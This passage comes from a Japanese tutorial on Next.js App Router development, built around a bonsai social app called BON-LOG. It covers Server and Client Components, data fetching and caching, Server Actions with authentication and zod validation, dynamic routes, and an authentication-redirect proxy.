> string, number, boolean, null, 配列, プレーンオブジェクト
>
> // ❌ シリアライズ不可（JSON変換できない）
> Date, Map, Set, 関数, クラスインスタンス
>
> // 解決策: 変換してから渡す
> // Server Component
> const date = new Date()
> <ClientComponent dateStr={date.toISOString()} />
>
> // Client Component
> const date = new Date(dateStr)  // 文字列からDateに戻す
> ```

```typescript
// ❌ エラーになる: Date型やMap型はシリアライズできない
// Server Component
export default async function PostPage() {
  const post = await prisma.post.findUnique({ where: { id: '123' } })
  return <PostCard post={post} />  // post.createdAtがDate型でエラー
}

// Client Component
'use client'
function PostCard({ post }) {
  return <div>{post.createdAt.toLocaleDateString()}</div>  // Error!
}
```

```typescript
// ✅ 正しい: シリアライズ可能な形式に変換してから渡す
// Server Component
export default async function PostPage() {
  const post = await prisma.post.findUnique({ where: { id: '123' } })
  return (
    <PostCard
      content={post.content}
      createdAt={post.createdAt.toISOString()}  // 文字列に変換
    />
  )
}

// Client Component
'use client'
function PostCard({ content, createdAt }: { content: string; createdAt: string }) {
  return <div>{new Date(createdAt).toLocaleDateString()}</div>
}

// Server → Client に渡せるデータ:
// ✅ string, number, boolean, null, undefined
// ✅ 上記の配列やプレーンオブジェクト
// ❌ Date, Map, Set, RegExp, 関数, クラスインスタンス
```

**【Server Component / Client Component 判断の実践チャート（詳細版）】**

新しいコンポーネントを作るとき、この順番で考えよう:


```mermaid
flowchart TD
    Step1["Step 1: まずはServer Component（デフォルト）で書く<br/>'use client' は書かない"]
    Step1 --> Step2{"Step 2: 書いているうちに<br/>以下が必要になった？"}
    Step2 -->|"useState / useReducer"| A["Client Componentに変更<br/>('use client' 追加)<br/>ただし全体を変更する前に、<br/>状態管理が必要な部分だけ<br/>子コンポーネントに分離できないか検討"]
    Step2 -->|"useEffect"| B["本当にuseEffectが必要か再考<br/>Server Componentでのデータ取得で代替できないか？<br/>必要なら、useEffectを使う部分だけ<br/>子コンポーネントに分離"]
    Step2 -->|"onClick / onChange 等"| C["そのインタラクティブ要素だけを<br/>Client Componentとして分離"]
    Step2 -->|"window / localStorage 等"| D["ブラウザAPIを使う部分だけを<br/>Client Componentとして分離"]
    Step2 -->|"不要"| E["Server Componentのまま"]

    style Step1 fill:#d4f1d4
    style E fill:#d4f1d4
    style A fill:#ffe6e6
    style B fill:#ffe6e6
    style C fill:#ffe6e6
    style D fill:#ffe6e6
```

> 鉄則: **「最小限の範囲だけClient Componentにする」**

> **BON-LOGでの使用箇所**: BON-LOGでは「Server Componentを基本、Client Componentは末端のみ」の原則を徹底しています。例えばタイムラインページ（`app/(main)/feed/page.tsx`）、投稿詳細ページ（`app/(main)/posts/[id]/page.tsx`）はServer Componentです。一方で「いいね」ボタン（`components/post/LikeButton.tsx`）、コメント入力フォーム（`components/comment/CommentForm.tsx`）、投稿作成ボタン（`components/feed/ComposeButton.tsx`）はClient Componentです。
>
> **実装しない場合の影響**: ページ全体を `'use client'` にするとJSバンドルが肥大化し、初回表示が遅くなります。また`auth()`や`prisma`などのサーバー専用ライブラリがブラウザに含まれてしまい、セキュリティリスクとなります。

### 理解度チェック

<details>
<summary>Q1: 'use client' を付けたコンポーネントの子コンポーネントはどうなりますか？</summary>

**A:** `'use client'`を付けたコンポーネントからインポートされる子コンポーネントは、自動的にすべてClient Componentとして扱われます。ただし、`children`としてprops経由で渡されたコンポーネントはServer Componentのままです。これがCompositionパターンの重要なポイントです。
</details>

<details>
<summary>Q2: なぜ「Client Componentは末端に配置」が推奨されるのですか？</summary>

**A:** Client Componentとそこからインポートされる全コンポーネントはJavaScriptバンドルに含まれ、ブラウザにダウンロードされます。ページ上位にClient Componentを配置すると、その配下のコンポーネントがすべてバンドルに含まれ、ページサイズが大きくなります。末端（ボタンやフォームなど）にだけClient Componentを配置することで、バンドルサイズを最小限に抑えられます。
</details>

---

## 5.5 データフェッチング

### このセクションで学ぶこと

- Server Componentでの直接async/awaitデータフェッチ
- Promise.allによる並列データ取得のパフォーマンス最適化
- キャッシュ戦略（no-store / revalidate）の使い分け
- React Cacheによるリクエスト内メモ化

Server Componentでは、直接async/awaitを使ってデータを取得できます。

### データフェッチの全体像

```
【Next.js App Router データフェッチングのフロー】

  1. Server Componentでの直接フェッチ（推奨）

  ブラウザ              Next.jsサーバー            DB/外部API
    |                       |                        |
    |-- ページリクエスト -->  |                        |
    |                       |-- Prisma/fetch ------> |
    |                       |<-- データ ------------- |
    |                       |                        |
    |                       | (HTMLに組み立て)         |
    |<-- 完成HTML --------- |                        |


  2. Client Componentでのフェッチ（必要な場合のみ）

  ブラウザ              Next.jsサーバー            DB/外部API
    |                       |                        |
    |<-- 初期HTML --------- |                        |
    |                       |                        |
    | (JS実行後)            |                        |
    |-- APIリクエスト ----->  |                        |
    |                       |-- DB問い合わせ -------> |
    |                       |<-- データ ------------- |
    |<-- JSONレスポンス ---- |                        |
    | (UIを更新)            |                        |

  ※ 1の方が高速: サーバー↔DB間は同一ネットワーク内で通信
  ※ 2は初回表示後の動的更新（いいね数のリアルタイム更新等）に使用
```

### 基本的なパターン

**BON-LOG実例: タイムライン（フィード）ページでのデータフェッチ**

タイムラインページでは、ログインユーザーがフォローしている人の投稿と公開投稿を取得して表示します。

**Step 1: 認証情報を取得する**

```typescript
// app/feed/page.tsx
import { prisma } from '@/lib/db'
import { auth } from '@/lib/auth'

export default async function FeedPage() {
  // 認証情報を取得（誰がアクセスしているか）
  const session = await auth()
  // session.user.id → ログインユーザーのID
```

**Step 2: データベースからフォロー中 + 公開投稿を取得する**

```typescript
  // データベースから投稿を取得
  const posts = await prisma.post.findMany({
    where: {
      OR: [
        { user: { isPublic: true } },                                          // 公開ユーザーの投稿
        { user: { followers: { some: { followerId: session?.user?.id } } } },  // フォロー中のユーザーの投稿
      ],
    },
    include: {
      user: { select: { id: true, nickname: true, avatarUrl: true } },  // 投稿者情報
      media: { orderBy: { sortOrder: 'asc' } },                        // 添付画像
      _count: { select: { likes: true, comments: true } },             // いいね数・コメント数
    },
    orderBy: { createdAt: 'desc' },  // 新しい順
    take: 20,                         // 最大20件
  })
```

**Step 3: 取得したデータを表示する**

```typescript
  return (
    <div>
      {posts.map(post => (
        <PostCard key={post.id} post={post} />
      ))}
    </div>
  )
}
```

> **画面表示**
> `http://localhost:3000/feed` にアクセスすると:
> - フォロー中のユーザーと公開アカウントの投稿が新しい順に表示される
> - 各投稿カードには: 投稿者のアバター画像、ニックネーム、投稿本文、添付画像、いいね数、コメント数が含まれる
> - 最大20件が表示され、さらに古い投稿はスクロールで読み込む（無限スクロール）
> - 未ログイン状態でアクセスするとproxy.ts（Middleware）により `/login` にリダイレクトされる

> **実行結果の確認方法**
> 1. ログインした状態で `http://localhost:3000/feed` にアクセスする
> 2. ターミナルのサーバーログに、Prismaが発行するSQLクエリが表示される
> 3. ブラウザの開発者ツール「Network」タブで、最初のHTMLレスポンスに投稿内容が含まれていることを確認する
> 4. `npx prisma studio` でDBの中身を確認し、表示されている投稿と一致していることを検証できる

### 並列データフェッチ

複数のデータ取得は`Promise.all`で並列実行します。

```typescript
// app/posts/[id]/page.tsx（簡略版 - 実際のコードはより包括的です）
import { notFound } from 'next/navigation'
import { auth } from '@/lib/auth'
import { getPost } from '@/lib/actions/post'
import { getComments, getCommentCount } from '@/lib/actions/comment'
import { PostCard } from '@/components/post/PostCard'
import { CommentThread } from '@/components/comment'

export default async function PostPage({
  params,
}: {
  params: Promise<{ id: string }>
}) {
  const { id } = await params
  const session = await auth()

  // 並列で複数のデータを取得（3つのクエリを同時実行 → 最も遅いものの時間で完了）
  const [postResult, commentsResult, countResult] = await Promise.all([
    getPost(id),          // 投稿データ取得
    getComments(id),      // コメント一覧取得
    getCommentCount(id),  // コメント総数取得
  ])

  if (postResult.error || !postResult.post) {
    notFound() // 動作: not-found.tsxを表示
  }

  return (
    <div>
      <PostCard post={postResult.post} currentUserId={session?.user?.id} disableNavigation={true} />
      <CommentThread
        postId={id}
        comments={commentsResult.comments || []}
        nextCursor={commentsResult.nextCursor}
        currentUserId={session?.user?.id}
        commentCount={countResult.count}
      />
    </div>
  )
}
```

> **補足**: 実際の`app/(main)/posts/[id]/page.tsx`では、上記に加えてOGPメタデータ生成、ソーシャルシェアボタン、広告バナー、投稿閲覧の分析記録、ミュート済みスレッドの処理など、より多くの機能を含んでいます。

**逐次取得 vs 並列取得の時間比較**


```mermaid
gantt
    title 逐次取得（悪い例）- 合計: 600ms
    dateFormat X
    axisFormat %Lms
    section データ取得
    post取得        :0, 200
    comments取得    :200, 400
    relatedPosts取得:400, 600
```


```mermaid
gantt
    title 並列取得（Promise.all）- 合計: 約200ms
    dateFormat X
    axisFormat %Lms
    section データ取得
    post取得        :0, 200
    comments取得    :0, 200
    relatedPosts取得:0, 200
```

→ 並列取得で約3倍高速化！

### キャッシュ戦略の決定フローチャート

以下の図は、データの特性に応じて適切なキャッシュ戦略を選択するための判断フローです。


```mermaid
flowchart TD
    Start[データの特性を確認]
    Start --> UserSpecific{ユーザーごとに<br/>異なるデータ?}
    UserSpecific -->|Yes| NoCache[キャッシュなし<br/>cache: 'no-store'<br/>例: タイムライン、通知]
    UserSpecific -->|No| FrequentChange{頻繁に変更される?}
    FrequentChange -->|Yes| ShortCache[短時間キャッシュ<br/>revalidate: 60<br/>例: トレンド、人気タグ]
    FrequentChange -->|No| Static{完全に静的?}
    Static -->|Yes| ForceCache[永続キャッシュ<br/>cache: 'force-cache'<br/>例: 利用規約、ヘルプ]
    Static -->|No| LongCache[長時間キャッシュ<br/>revalidate: 3600<br/>例: ジャンルマスタ]

    Start2[キャッシュの粒度を確認]
    Start2 --> Scope{影響範囲は?}
    Scope -->|ページ全体| RevalidatePath[revalidatePath<br/>例: 投稿作成後のフィード更新]
    Scope -->|特定データ| RevalidateTag[revalidateTag<br/>例: ジャンルマスタ更新]
    Scope -->|リクエスト内| ReactCache[React cache<br/>例: getUser の重複呼び出し防止]

    style NoCache fill:#ffe6e6
    style ShortCache fill:#fff9e6
    style LongCache fill:#e6f3ff
    style ForceCache fill:#d4f1d4
```

### キャッシュとRevalidation

```typescript
// キャッシュなし（常に最新データ）
const posts = await fetch('https://api.example.com/posts', {
  cache: 'no-store',
})
// 動作: アクセスするたびにAPIに問い合わせる。タイムラインや通知に適している

// 60秒ごとに再検証
const posts = await fetch('https://api.example.com/posts', {
  next: { revalidate: 60 },
})
// 動作: 最初のアクセスで取得→60秒間はキャッシュを返す→60秒後にバックグラウンドで再取得

// ページレベルでの設定
export const revalidate = 60 // 動作: このpage.tsx全体のデータが60秒ごとに再生成される
```

### React Cacheでメモ化

同一リクエスト内で重複するデータ取得を防ぎます。

```typescript
// lib/utils/cached-queries.ts（教育用の例）
// ※ 実際のBON-LOGでは各Server Actionやコンポーネント内で
//   直接Prismaクエリを実行しています
import { cache } from 'react'
import { prisma } from '@/lib/db'

export const getUser = cache(async (id: string) => {
  return await prisma.user.findUnique({
    where: { id },
  })
})

// 複数のコンポーネントから呼び出しても1回だけ実行される
const user1 = await getUser('user-123')  // 動作: DBに問い合わせ（1回目）
const user2 = await getUser('user-123')  // 動作: キャッシュから取得（DBアクセスなし）
```

**React Cache のメモ化の仕組み**


```mermaid
flowchart LR
    Request[1回のリクエスト内]
    Request --> PostHeader[PostHeader]
    Request --> PostFooter[PostFooter]
    PostHeader --> GetUser1["getUser('user-123')"]
    PostFooter --> GetUser2["getUser('user-123')"]
    GetUser1 --> DBQuery[実際のDBクエリは1回だけ]
    GetUser2 --> DBQuery

    style Request fill:#e8f4f8
    style DBQuery fill:#d4f1d4
```

※ 異なるリクエスト間ではキャッシュは共有されない
※ リクエスト間でキャッシュしたい場合は unstable_cache を使う

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| データが古いまま更新されない | キャッシュが有効になっている | `cache: 'no-store'`を指定するか`revalidatePath`を呼ぶ |
| Promise.allで1つ失敗すると全体が失敗 | Promise.allの仕様 | `Promise.allSettled`を使うか、個別にtry-catchする |
| Prismaの型が合わない | includeの指定不足 | Prismaクエリのinclude/selectを確認する |

### 理解度チェック

<details>
<summary>Q1: Server ComponentでPrismaを直接呼べるのはなぜですか？Client Componentでは呼べないのはなぜですか？</summary>

**A:** Server Componentはサーバー上で実行されるため、データベース接続ライブラリ（Prisma）を直接使用できます。コードはブラウザに送信されないため、DB接続文字列等の機密情報も安全です。一方、Client Componentはブラウザ上で実行されるため、Prismaのようなサーバー専用ライブラリは使えません（ブラウザからデータベースに直接接続することはセキュリティ上も不可能です）。
</details>

<details>
<summary>Q2: `revalidate: 60`と`cache: 'no-store'`はどう使い分けますか？</summary>

**A:** `revalidate: 60`は60秒間キャッシュを使い、その後バックグラウンドで再取得します。頻繁に変わらないが完全に静的ではないデータ（ランキング、人気投稿など）に適しています。`cache: 'no-store'`は毎回最新データを取得します。ユーザーごとに異なるデータ（タイムライン、通知など）や、常に最新が必要なデータに適しています。
</details>

> **BON-LOGでの使用箇所**: タイムライン（`getTimeline`）・通知（`getNotifications`）はユーザー固有のためキャッシュなし。ジャンル一覧（`getGenres`）は `unstable_cache` で1時間キャッシュ。トレンドジャンル・人気タグは5分キャッシュ。盆栽園一覧・イベント一覧は30分ISRキャッシュ。並列取得は投稿詳細ページ（`Promise.all([getPost, getComments, getCommentCount])`）やフィードページで活用しています。
>
> **実装しない場合の影響**: キャッシュを一切使わないと、ジャンル一覧のような静的データもリクエストごとにDBアクセスが発生し、不要な負荷がかかります。逆にタイムラインをキャッシュすると、他のユーザーの投稿が表示されるなど深刻な情報漏洩バグになります。

---

## 5.6 Server Actions

### このセクションで学ぶこと

- Server Actionsの概念と従来のAPI Routeとの違い
- フォーム送信でServer Actionsを使う方法
- useFormStatus/useFormStateによる進捗表示とエラーハンドリング
- バリデーション（zod）とセキュリティのベストプラクティス

Server Actionsは、サーバー側で実行される関数です。フォーム送信やデータ変更に使用します。

### Server Actionsの処理フロー

```
【Server Actionsの処理フロー】

  ブラウザ                        Next.jsサーバー               DB
    |                                 |                        |
    | 1. ユーザーがフォームを送信       |                        |
    |--- formData を送信 ----------> |                        |
    |                                 |                        |
    |                    2. 'use server' 関数が実行             |
    |                                 |                        |
    |                    3. 認証チェック (auth())               |
    |                                 |                        |
    |                    4. バリデーション (zod)                |
    |                                 |                        |
    |                    5. DB操作 ---+---- INSERT ----------> |
    |                                 |<--- 結果 ------------- |
    |                                 |                        |
    |                    6. revalidatePath('/feed')             |
    |                                 |                        |
    |<-- 結果 { success: true } ----- |                        |
    |                                 |                        |
    | 7. UIが自動更新                  |                        |


  【従来のAPI Route方式との比較】

  Server Actions:
    form action={createPost}  →  サーバー関数を直接呼び出し
    → シンプル、型安全

  API Route方式（従来）:
    fetch('/api/posts', { method: 'POST', body: ... })
    → 手動でエンドポイント定義、リクエスト/レスポンス処理が必要
```

### 基本的な使い方

**BON-LOG実例: 投稿作成のServer Actionを段階的に構築する**

ここでは、BON-LOGの投稿作成機能をServer Actionで実装する流れを段階的に見ていきます。

> **FormDataとは？**
> `FormData`はHTMLフォームの入力値をまとめて取得するブラウザAPIです。
>
> ```html
> <form action={serverAction}>
>   <input name="title" value="盆栽展" />
>   <input name="content" value="今日の手入れ" />
>   <button type="submit">投稿</button>
> </form>
> ```
>
> フォーム送信時、各 `<input>` の `name` 属性と値がFormDataに自動格納されます：
> ```typescript
> async function serverAction(formData: FormData) {
>   formData.get('title')    // '盆栽展'（単一値）
>   formData.get('content')  // '今日の手入れ'
>   formData.getAll('tags')  // ['松', '黒松']（複数値: checkbox等）
> }
> ```

**Step 1: Server Action関数を作成する（サーバー側）**

```typescript
// lib/actions/post.ts
'use server'  // ← ファイル全体をServer Actionsとして宣言

import { prisma } from '@/lib/db'
import { auth } from '@/lib/auth'
import { revalidatePath } from 'next/cache'

export async function createPost(formData: FormData) {
  // 認証チェック（誰が投稿しようとしているか確認）
  const session = await auth()
  if (!session?.user?.id) {
    return { error: '認証が必要です' }  // 動作: 未ログインならエラーを返す
  }

  const content = formData.get('content') as string  // フォームの入力値を取得

  // バリデーション（入力値の検証）
  if (!content || content.length > 500) {
    return { error: '投稿内容は1～500文字で入力してください' }  // 動作: 不正な入力ならエラーを返す
  }

  // 投稿作成
  try {
    const post = await prisma.post.create({
      data: {
        userId: session.user.id,
        content,
      },
    })

    // キャッシュを更新（タイムラインに新しい投稿を反映）
    revalidatePath('/feed')

    return { success: true, postId: post.id }  // 動作: 成功時に投稿IDを返す
  } catch (error) {
    return { error: '投稿の作成に失敗しました' }  // 動作: DB操作失敗時のエラー
  }
}
```

**Step 2: フォームコンポーネントを作成する（クライアント側）**

```typescript
// components/post/PostForm.tsx
'use client'  // ← フォームはユーザー操作があるのでClient Component

import { createPost } from '@/lib/actions/post'  // Server Actionをインポート
import { useFormStatus } from 'react-dom'

// 送信ボタン（送信中は「投稿中...」と表示して二重送信を防止）
function SubmitButton() {
  const { pending } = useFormStatus()  // 動作: フォーム送信中はtrue

  return (
    <button type="submit" disabled={pending}>
      {pending ? '投稿中...' : '投稿する'}
    </button>
  )
}

export function PostForm() {
  return (
    <form action={createPost}>  {/* ← Server Actionを直接渡す（URLではなく関数！） */}
      <textarea
        name="content"
        placeholder="今日の盆栽について語りましょう"
        maxLength={500}
        required
      />
      <SubmitButton />
    </form>
  )
}
```

> **画面表示（投稿前）**
> タイムラインページ (`http://localhost:3000/feed`) の上部に:
> - テキストエリア（プレースホルダー: 「今日の盆栽について語りましょう」）が表示される
> - その下に「投稿する」ボタンが表示される
> - テキストエリアに何も入力せずに送信しようとすると、ブラウザのバリデーション（`required`属性）でブロックされる

> **画面表示（投稿後）**
> テキストエリアに「今日の黒松の手入れ完了！」と入力して「投稿する」ボタンを押すと:
> 1. ボタンのテキストが「投稿中...」に変わり、ボタンが無効化される（二重送信防止）
> 2. サーバー側で `createPost` 関数が実行される（ターミナルにSQLログが出力される）
> 3. 投稿が完了すると `revalidatePath('/feed')` によりタイムラインが更新される
> 4. タイムラインの一番上に、今投稿した内容が表示される
> 5. ボタンが「投稿する」に戻り、再度入力可能になる

### 進捗表示とエラーハンドリング

```typescript
// components/post/PostForm.tsx
'use client'

import { createPost } from '@/lib/actions/post'
import { useFormState } from 'react-dom'

const initialState = {
  error: null,
  success: false,
}

export function PostForm() {
  const [state, formAction] = useFormState(createPost, initialState)
  // state: Server Actionの最新の返り値を保持する

  return (
    <form action={formAction}>
      <textarea name="content" required />

      {state.error && (
        <p className="text-red-500">{state.error}</p>
      )}
      {/* 表示: エラー時に赤文字でメッセージが表示される（例:「500文字以内で入力してください」） */}

      {state.success && (
        <p className="text-green-500">投稿しました！</p>
      )}
      {/* 表示: 成功時に緑文字で「投稿しました！」が表示される */}

      <button type="submit">投稿する</button>
    </form>
  )
}
```

### Server Actionsのベストプラクティス

1. **必ず認証チェックを実施**
2. **ユーザー入力をバリデーション**（zodを推奨）
3. **revalidatePath/revalidateTagでキャッシュ更新**
4. **エラーハンドリングを忘れずに**

**Server Actions 実装チェックリスト**


```mermaid
flowchart TD
    Start["'use server'"]
    Start --> Auth["[1] 認証チェック<br/>session = await auth()<br/>session?.user?.id がなければエラー返却"]
    Auth --> Validate["[2] バリデーション<br/>zod でスキーマ定義<br/>safeParse で検証"]
    Validate --> Business["[3] ビジネスロジック<br/>投稿制限、権限チェック等"]
    Business --> DB["[4] DB操作<br/>try/catch で囲む"]
    DB --> Cache["[5] キャッシュ更新<br/>revalidatePath / revalidateTag"]
    Cache --> Result["[6] 結果を返却<br/>{ success: true } or { error: 'メッセージ' }"]

    style Start fill:#e8f4f8
    style Auth fill:#fff9e6
    style Validate fill:#ffe6f0
    style Business fill:#f0f8ff
    style DB fill:#fffacd
    style Cache fill:#e6f3ff
    style Result fill:#d4f1d4
```

```typescript
// lib/actions/post.ts
'use server'

import { z } from 'zod'
import { auth } from '@/lib/auth'
import { prisma } from '@/lib/db'
import { revalidatePath } from 'next/cache'

const createPostSchema = z.object({
  content: z.string().min(1, '投稿内容を入力してください').max(500, '500文字以内で入力してください'),
  genreIds: z.array(z.string()).max(3, 'ジャンルは3つまで選択できます'),
})

export async function createPost(prevState: any, formData: FormData) {
  // 1. 認証チェック
  const session = await auth()
  if (!session?.user?.id) {
    return { error: '認証が必要です' }
  }

  // 2. バリデーション
  const result = createPostSchema.safeParse({
    content: formData.get('content'),
    genreIds: formData.getAll('genreIds'),
  })

  if (!result.success) {
    return { error: result.error.errors[0].message }
  }

  // 3. ビジネスロジック（投稿制限チェック）
  const today = new Date()
  today.setHours(0, 0, 0, 0)
  const postCount = await prisma.post.count({
    where: {
      userId: session.user.id,
      createdAt: { gte: today },
    },
  })

  if (postCount >= 20) {
    return { error: '1日の投稿上限（20件）に達しました' }
  }

  // 4. データベース操作
  try {
    const post = await prisma.post.create({
      data: {
        userId: session.user.id,
        content: result.data.content,
        genres: {
          create: result.data.genreIds.map(genreId => ({
            genreId,
          })),
        },
      },
    })

    // 5. キャッシュ更新
    revalidatePath('/feed')
    revalidatePath(`/users/${session.user.id}`)

    return { success: true, postId: post.id }
  } catch (error) {
    console.error('Failed to create post:', error)
    return { error: '投稿の作成に失敗しました' }
  }
}
```

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| "Server actions must be async functions" | Server Actionがasyncでない | 関数に`async`キーワードを追加 |
| フォーム送信後にUIが更新されない | `revalidatePath`の呼び忘れ | 適切なパスで`revalidatePath`を呼ぶ |
| useFormStateの初期状態が表示されない | 初期値の型が合っていない | Server Actionの返り値と初期値の型を一致させる |
| バリデーションエラーが表示されない | prevStateパラメータの不足 | useFormState使用時はServer Actionの第1引数に`prevState`を追加 |

### 理解度チェック

<details>
<summary>Q1: Server Actionsとfetch('/api/...')を使ったAPI呼び出しの違いは何ですか？</summary>

**A:** Server Actionsは`'use server'`を付けた関数を直接`form action`に渡すだけで、クライアントから自動的にサーバー関数を呼び出せます。API Routeは自分でエンドポイント（`/api/posts`等）を定義し、`fetch`でリクエストを送り、レスポンスを処理する必要があります。Server Actionsの方がコード量が少なく、TypeScriptの型安全性が保たれ、実装がシンプルです。
</details>

<details>
<summary>Q2: Server Actionsで認証チェックが必須なのはなぜですか？</summary>

**A:** Server Actionsはブラウザから呼び出せる公開エンドポイントになります。悪意のあるユーザーが開発者ツールから直接Server Actionを呼び出す可能性があるため、「ログイン済みのユーザーか」「その操作の権限があるか」を必ずサーバー側で確認する必要があります。クライアント側のチェックだけでは不十分です。
</details>

> **BON-LOGでの使用箇所**: BON-LOGではほぼすべてのデータ変更をServer Actionsで実装しています。`lib/actions/post.ts`（投稿作成・削除・いいね）、`lib/actions/comment.ts`（コメント投稿）、`lib/actions/follow.ts`（フォロー/フォロー解除）、`lib/actions/scheduled-post.ts`（予約投稿）など。各ファイルの先頭に `'use server'` を記述してファイル全体をServer Actionsとして宣言しています。zodによるバリデーション、レート制限チェック、Redisによる制限管理まで含む本格的な実装です。
>
> **実装しない場合の影響**: Server Actionsで認証チェックを省略すると、未ログインユーザーや他のユーザーになりすました投稿・削除が可能になります。バリデーションを省略すると500文字超の投稿や不正なデータがDBに保存されます。`revalidatePath`を忘れると、操作後もページに古いデータが表示されたままになります。

---

## 5.7 Dynamic Routes

### このセクションで学ぶこと

- `[id]`による動的パラメータの受け取り
- 複数パラメータ、Catch-all Routesの使い方
- `generateStaticParams`によるビルド時の静的生成

URLパラメータを受け取る動的なルートです。

### Dynamic Routesの全体像

**【Dynamic Routes パターン一覧】**

| パターン | ディレクトリ名 | マッチするURL例 |
|---------|--------------|----------------|
| 単一パラメータ | `[id]` | `/posts/abc123` |
| 複数パラメータ | `[userId]/[postId]` | `/users/u1/posts/p1` |
| Catch-all | `[...slug]` | `/docs/a/b/c` |
| Optional Catch-all | `[[...slug]]` | `/docs` または `/docs/a/b` |

> 角括弧内の名前がパラメータ名になる: `[id]` → `params.id`、`[userId]` → `params.userId`

### 基本的なパターン

```typescript
// app/posts/[id]/page.tsx
import { prisma } from '@/lib/db'
import { notFound } from 'next/navigation'

export default async function PostPage({
  params,
}: {
  params: Promise<{ id: string }>
}) {
  const { id } = await params

  const post = await prisma.post.findUnique({
    where: { id },
    include: {
      user: true,
      media: true,
    },
  })

  if (!post) {
    notFound()  // 動作: 投稿が見つからない場合、not-found.tsxを表示
  }

  return (
    <div>
      <h1>{post.content}</h1>
      <p>投稿者: {post.user.nickname}</p>
    </div>
  )
}

// URL: /posts/abc123
```

> **画面表示**
> `http://localhost:3000/posts/abc123` にアクセスすると:
> - `abc123` が `params.id` として渡され、そのIDの投稿がDBから取得される
> - 投稿本文が見出し（h1）として表示され、その下に「投稿者: (ニックネーム)」が表示される
> - 存在しないIDでアクセスした場合は `notFound()` が呼ばれ、not-found.tsxの内容が表示される

### 複数パラメータ

```typescript
// app/users/[userId]/posts/[postId]/page.tsx
export default async function UserPostPage({
  params,
}: {
  params: Promise<{ userId: string; postId: string }>
}) {
  const { userId, postId } = await params
  // 表示: userId = 'user123', postId = 'post456' として利用可能

  // ...
}

// URL: /users/user123/posts/post456
```

### Catch-all Routes

```typescript
// app/docs/[...slug]/page.tsx
export default async function DocsPage({
  params,
}: {
  params: Promise<{ slug: string[] }>
}) {
  const { slug } = await params

  // URL: /docs/getting-started/installation
  // slug = ['getting-started', 'installation']

  return <div>{slug.join(' > ')}</div>
  // 表示: "getting-started > installation" というテキストが画面に表示される
}
```

### generateStaticParams - 静的生成

ビルド時にパスを生成します（SSG）。

```typescript
// app/posts/[id]/page.tsx
export async function generateStaticParams() {
  const posts = await prisma.post.findMany({
    select: { id: true },
    take: 100, // 人気投稿100件を静的生成
  })

  return posts.map(post => ({
    id: post.id,
  }))
  // 動作: ビルド時に /posts/post1, /posts/post2, ... /posts/post100 のHTMLが事前生成される
}

export default async function PostPage({ params }) {
  // ...
}
```

> **実行結果の確認方法**
> `npm run build` を実行すると、ビルドログに以下のような出力が表示される:
> ```
> ├ ● /posts/[id]          (SSG: 100 paths)
> ```
> これにより、100件分の投稿ページが事前生成されたことがわかる。事前生成されたページはCDNから高速に配信される。

### 理解度チェック

<details>
<summary>Q1: `[id]`と`[...slug]`の違いは何ですか？</summary>

**A:** `[id]`は1つのURLセグメントだけをキャプチャします（例: `/posts/abc`のabc）。`[...slug]`は1つ以上の任意の数のセグメントをキャプチャし、配列として取得できます（例: `/docs/a/b/c`で`['a', 'b', 'c']`）。ドキュメントのように階層が可変のページに便利です。
</details>

<details>
<summary>Q2: generateStaticParamsはどんな場面で使いますか？</summary>

**A:** ビルド時に静的HTMLを事前生成したい場合に使います。例えば、人気投稿のページを事前生成しておくと、ユーザーがアクセスした瞬間に高速表示できます。ただし、生成されていないパスへのアクセスは動的に処理されます（`dynamicParams`設定で制御可能）。
</details>

> **BON-LOGでの使用箇所**: BON-LOGの主要な動的ルートは `app/(main)/posts/[id]/page.tsx`（投稿詳細）、`app/(main)/users/[userId]/page.tsx`（ユーザープロフィール）、`app/(main)/shops/[id]/page.tsx`（盆栽園詳細）です。`params` は Next.js 15以降 `Promise<{ id: string }>` 型になったため `await params` が必要です。`generateStaticParams` はBON-LOGでは現時点では使用しておらず、すべて動的SSRで処理しています（ユーザーの認証状態で表示内容が変わるため）。
>
> **実装しない場合の影響**: `await params` を忘れると（`params.id` を直接使うと）TypeScriptエラーまたは実行時エラーになります。`notFound()` を呼ばないと存在しないIDでもエラーページではなくクラッシュや空ページが表示されます。

---

## 5.8 Proxy（旧Middleware）

### このセクションで学ぶこと

- Proxy（プロキシ）の役割と実行タイミング
- 認証チェックとリダイレクトの実装
- matcherによる適用範囲の制御
- Next.js 16 で `middleware.ts` が `proxy.ts` に変わった背景

> **Next.js 16 の変更点**
> Next.js 15 以前では `middleware.ts` というファイル名を使っていましたが、**Next.js 16 では `proxy.ts`** に名称が変更されました。役割はほぼ同じで、「リクエストがページに到達する前に実行される処理」（認証チェック、リダイレクト、セキュリティヘッダーの付与など）を記述します。BON-LOGでは `proxy.ts` を使用しています。

Proxyはリクエストが完了する前に実行されるコードです。認証チェック、リダイレクト、ヘッダー操作に使用します。

```
【Proxyの実行タイミング】

  ブラウザ            Proxy (proxy.ts)      Next.jsサーバー
    |                     |                      |
    |-- リクエスト -----> |                      |
    |                     |                      |
    |                 認証チェック                |
    |                     |                      |
    |                 ログイン済み？              |
    |                  /        \                |
    |                Yes         No              |
    |                 |           |              |
    |                 |      リダイレクト         |
    |                 |      → /login            |
    |                 |           |              |
    |                 |-- リクエスト続行 -------> |
    |                 |                          |
    |<-- レスポンス --|<-- ページ生成 ----------- |

  ※ Proxyはリクエストごとに実行される
  ※ Edge Runtimeで動作するため高速
```

### 基本的な認証チェック（教育用のシンプル版）

```typescript
// proxy.ts の基本パターン（教育用簡略版）
// Next.js 16 では proxy.ts をプロジェクトルートに配置する
import { auth } from '@/lib/auth'

export default auth((req) => {
  const isLoggedIn = !!req.auth

  const protectedPaths = ['/feed', '/posts', '/settings', '/notifications']
  const authPaths = ['/login', '/register']

  const isProtected = protectedPaths.some(path =>
    req.nextUrl.pathname.startsWith(path)
  )
  const isAuthPage = authPaths.some(path =>
    req.nextUrl.pathname.startsWith(path)
  )

  // 未認証ユーザーが保護されたページにアクセス
  if (isProtected && !isLoggedIn) {
    const redirectUrl = new URL('/login', req.nextUrl)
    redirectUrl.searchParams.set('callbackUrl', req.nextUrl.pathname)
    return Response.redirect(redirectUrl)
    // 動作: /feed にアクセス → /login?callbackUrl=/feed にリダイレクト
  }

  // 認証済みユーザーが認証ページにアクセス
  if (isAuthPage && isLoggedIn) {
    return Response.redirect(new URL('/feed', req.nextUrl))
    // 動作: ログイン済みで /login にアクセス → /feed にリダイレクト
  }
})

export const config = {
  matcher: ['/((?!api|_next/static|_next/image|favicon.ico).*)'],
}
